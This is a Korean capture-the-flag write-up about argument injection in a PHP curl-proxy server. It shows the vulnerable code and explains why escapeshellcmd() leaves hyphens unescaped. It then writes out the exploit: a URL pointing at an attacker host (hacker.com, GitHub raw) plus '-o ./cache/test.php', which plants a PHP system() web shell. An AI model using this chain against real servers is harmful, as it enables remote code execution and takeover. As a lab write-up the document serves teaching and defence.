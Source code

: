 # 결론은.. RFI
curl 명령어를 대신 실행해주는 웹 서버가 있습니다. 사용자는 url이라는 매개변수를 통해 URL을 입력할 수 있으며, 서버는 해당 URL의 결과를 별도의 캐시 파일로 특정 디렉터리에 저장하여 사용자가 이를 읽을 수 있도록 합니다. 그러나 악의적인 공격자가 악성 명령어를 삽입할 수 있어, 초기 보안 조치로 escapeshellcmd() 함수를 통해 사용자 입력에 대한 1차 필터링을 적용했습니다. 하지만 escapeshellcmd()가 하이픈(-) 필터링을 지원하지 않으므로, 사용자는 입력한 URL 뒤에 -o나 --output ./cache/test.php와 같은 옵션을 추가할 수 있습니다. (즉, 다시말해 서버 내 임의 파일 생성이 가능)

Exploit 예시: 공격자는 <?php system('/flag'); ?>가 포함된 파일을 자신이 운영하는 웹 서버에 저장합니다 (예: http://hacker.com/phpcode). 이후 공격자가 http://hacker.com/phpcode -o ./cache/test.php와 같은 입력을 전송하면 서버는 이 파일을 ./cache/test.php로 저장하게 되고, 최종적으로 http://curl.server/cache/test.php에 접속하면 해당 php코드가 실행되어 공격에 성공하게 됩니다.



# Flow
curl 명령어를 도와주는 웹서버가 있다. 사용자는 URL주소를 입력할 수 있으며 그 결과를 cache라는 디렉토리에 별도로 저장함. 아래는 예시

![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-1.png)

# 코드를 보면...
```php
$url = $_GET['url'];
if (strpos($url, 'http') !== 0) {
    die('http only !');
} else {
    $result = shell_exec('curl '.escapeshellcmd($_GET['url']));
    $cache_file = './cache/'.md5($url);
    file_put_contents($cache_file, $result);
    echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
    echo '<pre>'.htmlentities($result).'</pre>';
    return;
}
```
사용자 입력 `url` 에 대한 escapeshellcmd() 검증을 하고 있으나 -에 대한 필터링이 없기 때문에 옵션 사용을 통한 우회가능해보임
ex) -o 또는 --output <file>: 다운로드한 내용을 파일에 저장합니다.

### 참고

PHP의 `escapeshellcmd` 함수는 사용자가 제공한 명령어를 안전하게 처리하기 위해 특수 문자를 이스케이프하여 쉘 인젝션을 방지하는 역할을 합니다. 이 함수는 주로 `exec()`, `system()`, 또는 백틱 연산자를 사용해 외부 명령어를 실행하기 전에 적용됩니다. PHP 소스 코드에서 `escapeshellcmd`는 다음과 같은 방식으로 특수 문자를 이스케이프합니다:

- `&`, `;`, `|`, `*`, `?`, `<`, `>`, `^`, `(`, `)`, `[`, `]`, `{`, `}`, `$`, `\`, 줄바꿈 문자(`\x0A`), 그리고 파일 끝 문자(`\xFF`)와 같은 문자 앞에 역슬래시(`\`)를 추가하여 문자열 그대로 해석되도록 합니다.
- Windows의 경우, `%`와 `!` 문자도 `^` 기호로 이스케이프됩니다.

이러한 처리를 통해 악의적인 명령어를 삽입하려는 시도를 제한하지만, `escapeshellcmd`는 전체 명령어를 이스케이프할 뿐이며 개별 인수를 안전하게 처리하지 않기 때문에 여전히 보안에 취약할 수 있습니다. 따라서 단일 인수의 이스케이프에는 `escapeshellarg()` 사용이 권장됩니다.

`escapeshellcmd`는 특수 문자와 명령어 체인을 분리하지만, 복잡한 명령어 구문이나 특수한 상황에서 완벽한 보호를 제공하지 못할 수 있어, PHP의 `cURL` 라이브러리와 같이 셸을 직접 호출하지 않는 방법을 사용하는 것이 좋습니다.

# RFI 준비
간단히 깃허브에 php코드가 담긴 파일을 만들어줌
![alt text](image-9.png)

## Try 1
```
curl https://raw.githubusercontent.com/...(중략).../phpcode -o ./test.php
```
생성되지 않음 이유는 디렉토리 내 쓰기 권한이 없음
![alt text](image-4.png)

하지만 현재 디렉토리 내 `worldwritable` 디렉토리 확인!
![alt text](image-5.png)

## Try 2
```
curl https://raw.githubusercontent.com/...(중략).../phpcode -o ./cache/test.php
```

![alt text](image-6.png)
![alt text](image-7.png)
![alt text](image-8.png)

끝.